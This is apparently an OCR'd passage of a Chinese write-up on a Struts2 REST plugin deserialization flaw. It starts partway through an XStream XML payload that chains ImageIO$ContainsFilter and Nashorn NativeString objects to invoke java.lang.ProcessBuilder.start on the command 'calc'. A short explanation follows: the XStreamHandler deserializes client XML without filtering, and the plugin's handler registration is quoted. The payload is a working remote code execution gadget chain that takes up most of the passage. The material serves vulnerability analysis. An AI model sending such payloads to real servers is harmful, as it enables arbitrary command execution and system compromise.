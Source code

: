 ```xml
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>calc</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

这个漏洞其实是因为Struts2使用了 `XStreamHandler` 对前端传来的XML数据进行反序列化时未进行任何过滤，从而导致 `XStreamHandler` 反序列化漏洞。

首先看到 `struts2-rest-plugin-2.5.12.jar!\struts-plugin.xml` 中注册的 `ContentTypeHandler` ：

```xml
<bean type="org.apache.struts2.rest.handler.ContentTypeHandler" name="xml" class="org.apache.struts2.rest.handler.XStreamHandler" />
```
